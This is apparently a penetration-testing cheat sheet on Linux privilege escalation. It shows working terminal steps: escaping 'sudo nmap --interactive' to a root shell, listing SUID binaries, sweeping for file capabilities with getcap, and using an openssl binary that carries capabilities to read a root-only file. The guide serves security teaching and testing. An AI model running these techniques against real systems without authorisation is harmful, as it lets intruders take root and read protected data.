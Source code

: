 # LINUX
This sheet serves as a resource for processes commonly used to escalate privileges of a low-privilege user access during the post-exploitation phase of the penetration test.
## Run the LINUX Privilege Checker Python Script
If Python is installed, **make sure that this script is ran immediately** [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) upon gaining low-level access to a target system. This script will provide quick insight into possible misconfigurations in the target system.

## SUDO Test
Testing for sudo will sometimes reveal a nice surprise. The [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) will tell you exactly which commands/programs are installed with interactive shells that can be escaped from. For instance, some older version of `nmap` had a interactivbe shell. This meant that on certain systems in which a default account has non-authenticated sudo access to it, it could easily lead to a root shell.

```
bash-3.2$ ls -lah /usr/bin/nmap
ls -lah /usr/bin/nmap
-rwxr-xr-x 1 root root 523K Jan  6  2007 /usr/bin/nmap
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! /bin/bash
! /bin/bash
bash-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
bash-3.2# 
```
So, it is **very important** that all of these are tested with sudo.

## SUID Test
Some of the aforementioned applciations which can be escaped from may have a SUID bit set in the permissions. This means that the effective user ID becomes that of the file's owner. **Again, test all of these** applications, **without sudo** if the attack above is unsuccessful because some of the file permissions may not be set correctly. You'd be surprised.

```
root@attacker-machine:~# find / \( -perm -2000 -o -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```
## Capabilities
Sometimes files have extra capabilities. To find special capabilities on files, you can try using the `getcap` command on every file in the file system. This can be very slow on actual physical machines - but for VMs and solid state drives, it shouldn't be too bad. You can utilize the `find` command to do this as so,
```
root@attacker-machine:~# find . * 2>/dev/null | xargs -I {} getcap {} 2>/dev/null
/usr/bin/command = cap_dac_read_search+ei
```
Then, we can try to analyze the command as a binary with `strings`, `gdb`, or test it by fuzzing, or execution trial an error.
### OpenSSL
Here is an OpenSSL example of how to utilize Unix Capabilities to read a file that you don't have read access to. If we use `openssl` which has the capabilities set as `=ep`, as shown below,
```
unprivuser@target-system:~$ find . * 2>/dev/null | xargs -I {} getcap {} 2>/dev/null
openssl =ep
```
We can run `./openssl` to encrypt a file for us, then again to decrypt it. This process essentially creates a new file which we have permission to read. Try this,
```
unprivuser@target-system:~$ ./openssl aes-256-cbc -a -salt -in /root/root.txt -out root.txt.enc
enter aes-256-cbc encryption password:
Verifying - enter aes-256-cbc encryption password:
unprivuser@target-system:~$ ls -lah
-rw-rw-r--. 1 unprivuser unprivuser   90 Jan 18 14:28 root.txt.enc
```
Now we decrypt the new file, using the password we chose during the encryption process, and we can read ikt's contents.
```
unprivuser@target-system:~$ openssl aes-256-cbc -d -a -in root.txt.enc -out root.txt
enter aes-256-cbc decryption password:
unprivuser@target-system:~$ cat root.txt
This was a privileged flag file in /root ! How did you read me!?!
unprivuser@target-system:~$
```
